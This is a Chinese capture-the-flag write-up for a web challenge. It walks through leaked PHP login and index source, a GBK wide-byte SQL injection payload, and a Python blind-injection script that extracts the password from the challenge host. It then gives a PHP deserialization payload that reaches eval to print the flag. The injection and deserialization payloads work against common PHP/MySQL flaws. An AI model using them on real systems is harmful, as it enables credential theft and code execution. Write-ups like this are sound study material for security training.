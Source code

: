 下载.index.php.swp和.login.php.swp获取源码

login.php

```php
<?php
    include "connection.php";
    mysqli_query($conn, "SET CHARACTER SET 'gbk'");

    $username=addslashes($_POST['username']);
    $password=addslashes($_POST['password']);
    $msg='';
    if(empty($username)){
        $msg='please post your username';
    }
    else{
        $sql="select * from users where username='$username'";
        $result=mysqli_query($conn,$sql);
        if($result){
            $row=mysqli_fetch_array($result,MYSQLI_ASSOC);
        }
        if(empty($row)){
            $msg='you are not reclu3e';
        }
        else{
            if($row['password']!==$password){
                $msg='I know you are reclu3e but you need post the right password';
            }
            else{
                session_start();
                $_SESSION['uid'] = $username;
                echo '<script>alert("Yes! you are reclu3e")</script>';
            }
        }
    }
    if(!empty($msg)){
        echo "<script>alert('$msg')</script>";
    }
    $conn->close();
    echo "<script type='text/javascript'>";  
    echo "window.location.href='index.php'";  
    echo "</script>";  
```

看到数据库编码为gbk，并且使用addslashes()函数进行过滤，考虑使用宽字节注入。注入脚本如下：

这里我已经首先进行手动注入得知密码长度为12位，payload为1%ed' or lenth((select password from users))=12%23。并且此处表名字段名在上面代码中已给出。并且注入前要根据题目提示猜测出用户名为reclu3e。

这里不适用requests库的原因是它会对post的数据进行url编码，编码后就破坏了payload，在我尝试利用request.Session和request.Parse发送请求并在其中修改post数据的值后，便出现发包后没有响应的情况（也可能是包没有发出），于是改用urllib库。

这里使用二分法获取密码而不是直接用等号进行遍历的原因不光是为了节省时间，mysql中0='a'的结果是true，因此可能导致结果全为0或空白符。

```python
import urllib.request
import urllib.parse
import time
name=''
for j in range(1,13):
    l = 32
    h = 127
    while abs(l-h)>1:
        i=int((l+h)/2)
        url="http://areyoureclu3e.whye.xyz/login.php"
        username="1%ed' or ascii(substr((select password from users),"+str(j)+",1))>"+str(i)+"%23"
        data={'username':username,'password':''}
        data=bytes(urllib.parse.urlencode(data),encoding='utf-8')
        data=data.replace(b'%25',b'%')
        r = urllib.request.urlopen(url=url,data=data)
        time.sleep(0.005)
        if r.status=='429':
            print('to fast')
        if 'I know you are reclu3e but you need post the right password' in str(r.read()):
            l = i
        else:
            h = i
    name += chr(h)
print(name)
```

获取密码后登录，再根据index.php源码进行反序列化

```php
<?php
    include "connection.php";
    include "flag.php";//$flag="minilctf{****}";

    session_start();
    if (empty($_SESSION['uid'])) {
        include "loginForm.html";
    }
    else{
        echo '<h1>Hello, reclu3e!</h1>';
        $p=unserialize(isset($_GET["p"])?$_GET["p"]:"");
    }
?>
<?php
class person{
    public $name;
    public $age;
    public $weight;
    public $height;
    private $serialize;
    public function __construct(){
        $this->name='';
        $this->age=0;
        $this->weight='0kg';
        $this->height='0cm';
    }
    public function __wakeup(){
        if(is_numeric($this->serialize)){
            $this->serialize++;
        }
    }
    public function __destruct(){
        @eval('$s="'.$this->serialize.'";');
    }
}
```

这里__destruct()析构函数处存在命令执行，此处可以利用$this->serialize进行命令执行。为什么能执行看[这篇文章](https://cloud.tencent.com/developer/article/1148417)

首先在下载的index.php文件下面加上

```php
$a=new person();
echo serialize($a);
```

可以获取到序列化后的person对象：

O:6:"person":5:{s:4:"name";s:0:"";s:3:"age";i:0;s:6:"weight";s:3:"0kg";s:6:"height";s:3:"0cm";s:17:"personserialize";N;}

在其中的serialize部分加入payload，将其改为：

O:6:"person":5:{s:4:"name";s:0:"";s:3:"age";i:0;s:6:"weight";s:3:"0kg";s:6:"height";s:3:"0cm";s:17:"%00person%00serialize";s:26:"${print($GLOBALS[%27flag%27])}";}

然后get方式提交为参数即可获取flag

php序列化时会在private变量名前的类名前后加上空白符%00，但是打印出来会丢失，所以要加上。这也是为什么'personserialize'只有15位而前面会显示s:17的原因。

这里我们打印$flag时，由于$flag是全局变量，在方法内无法直接访问，所以利用超全局变量$GLOBALS数组进行访问。该数组储存了所有的全局变量。

